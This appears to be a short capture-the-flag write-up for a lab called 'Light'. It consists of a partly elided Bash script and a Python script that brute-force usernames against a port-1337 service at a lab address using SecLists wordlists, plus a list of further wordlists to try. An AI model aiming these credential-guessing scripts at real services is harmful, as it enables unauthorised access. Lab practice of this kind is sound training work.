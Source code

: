 # Light

_**Bash script to brute force the password:**_

```bash
#!/usr/bin/bash

filename="/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt"

while IFS="" read -r line; do
	# eg. echo smokey | nc <target> 1337
	res=$(echo "$line" | nc -w 1 <target> 1337)

	if [[ "$res" == *"not found"* ]]; then
		# if the substring "not found" is present, means user not found
		...
	else
		# print success message and exit
		...
	fi;

done < "$filename"


```

_**Python script:**_

```python
#!/usr/bin/python3

import socket

HOST='10.10.34.209'
PORT=1337
#filename='/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt'
#filename='test.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/names.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/femalenames-usa-top1000.txt'
#filename='Security-Research/tools/aws-pentest-tools/iam_user_enum/default-word-list.txt'
filename='wordlist/usernames.txt'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.recv(1024) # flush 1
    s.recv(1024) # flush 2


    f = open(filename, 'r')

    for username in f:
        if len(username) <= 10:
            continue

        username = username.lower()

        print(f'[!] Trying {username.replace('\n', '')}', end=' ')
        
        s.send(bytes(username, 'utf-8'))
        data = s.recv(1024)
        str_data = str(data, 'utf-8')

        if 'not found' in str_data:
            print('failed')
            s.recv(50)

        else:
            print(str_data)
            break

    f.close()

```



_**Word-lists to try out**_:

1. /`usr/share/wordlists/seclists/Usernames/Names/names.txt`
2. `/usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt`&#x20;
3. `/usr/share/wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt`
